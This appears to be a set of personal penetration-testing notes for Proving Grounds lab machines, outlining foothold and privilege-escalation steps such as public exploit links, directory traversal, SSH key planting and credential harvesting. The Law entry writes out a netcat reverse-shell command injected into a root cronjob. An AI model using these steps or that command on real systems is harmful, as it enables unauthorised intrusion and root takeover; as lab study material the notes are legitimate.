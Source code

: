 **Blackgate**
  - Foothold:
    - [Redis 4.0.14 Exploit](https://github.com/Ridter/redis-rce)
  - PrivEsc:
    - pwnkit

**Boolean**
  - Foothold: 
    - Create a useraccount and go checkout confirmation part. We have to intercept the email edit request with burp and add user[confirmed]=true
    - On upload page, when we try downloading files, we can see cwd which means current working directory. We found directory traversal
    - After checking username list we create an ssh key set and add it to authorized keys and upload it to one of the found users and login as that user using ssh -i
  - PrivEsc:
    - Check user's .bash_aliases file: our owner has root key and can login as root
    - ssh -l root -i ~/.ssh/keys/root 127.0.0.1 -o IdentitiesOnly=true

**Clue**
  - Foothold:
    - Cassandra Exploit: directory traversal
    - from proc/self/cmdline, we found cassie's name and password -> didn't work for ssh
    - FreeSWITCH mod_event_socket was running so tried exploit and didn't work because password is different
    - Found FreeSWITCH mod_event_socket password through cassandra's exploit
  - PrivEsc: pivoting twice
    - Switch user as cassie
    - cassie can run cassandra-web with sudo privilege. since it's running with root privilege, we can grab anything as root
    - Read .bash_history of anthony and figure out that he can login into ssh as root
    - Shell as root

**Law**
  - Foothold:
    - [HTMLawed Exploit](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/)
    - Change POST /htmLawedTest.php to POST /
    - Exec code I used is included [Proving Grounds Law writeup](https://www.notion.so/Law-28c97105f0134218b24a14a5fcf2bfc3)
  - PrivEsc: cronjob that wasn't detected by linpeas
    - Run `./pspy64 -pf -i 1000`
    - Check `CMD: UID=0     PID=34261  | /bin/sh -c /var/www/cleanup.sh`
    - /var/www/cleanup.sh is owned by the initial shell user
    - `echo "nc 192.168.45.175 80 -e /bin/sh" > cleanup.sh`

**GLPI**
  - Foothold: [HTMLawed Exploit](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/)
    - Exec code I used is included [Proving Grounds GLPI writeup](https://www.notion.so/GLPI-changeuserpass-e1451beb5374490b8de5d1558598aaa4)
  - PrivEsc:
    - linpeas: Searching passwords in config PHP files
      - /var/www/glpi/config/config_db.php
      - Found db username and password
      - Found another user's password hash(betty)
      - Couldn't crack the bash
      - Updated Betty's password hash
      - Log in as betty on GLPI and found a ticket about betty's password
      - Login as betty through ssh
    - linpeas: Interesting writable files owned by me or writable by everyone
      - /opt/jetty/jetty-base/webapps
      - There is also an active port on 8080
      - Type: [Jetty RCE exploit](https://twitter.com/ptswarm/status/1555184661751648256/photo/1)
